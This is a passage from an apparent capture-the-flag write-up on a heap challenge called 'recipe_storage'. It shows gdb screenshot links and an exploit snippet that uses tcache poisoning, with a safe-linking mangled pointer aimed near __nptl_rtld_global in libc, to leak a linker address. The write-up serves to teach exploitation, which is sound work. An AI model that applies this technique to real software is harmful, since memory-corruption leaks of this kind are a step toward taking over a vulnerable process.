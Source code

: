 <img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_16.png" style="width:100%; height:100%;" /> <br>

The code snippet below shows a tcache poison that overwrites the **next** ptr of the tcache chunk at index 1. We will be using this to leak a linker address value from __nptl_rtld_global that resides in the rw section of libc and contains a linker address<br>
```
free(2)
free(1)

# addr of tcache chunk we want to overwrite
home = heap + 0xf50
nptl = libc + 0x2046b8 - 24 # nptl (contains linker ptr (rtld)). Allocate a little before
addr = mangle(home, nptl)

free(6)

p = b"N"*0x410
p += p64(0)
p += p64(0x71)
p += p64(addr)
malloc(6, 0x5b0, p)

malloc(7, 0x60, b"A")

p = b"A"*25
malloc(8, 0x60, p)
```
And then inspecting __nptl_rtld_global in libc we find this:<br>
<img src="/assets/images/linux/heap/writeups/recipe_storage/recipe_gdb_17.png" style="width:100%; height:100%;" /> <br>
<br>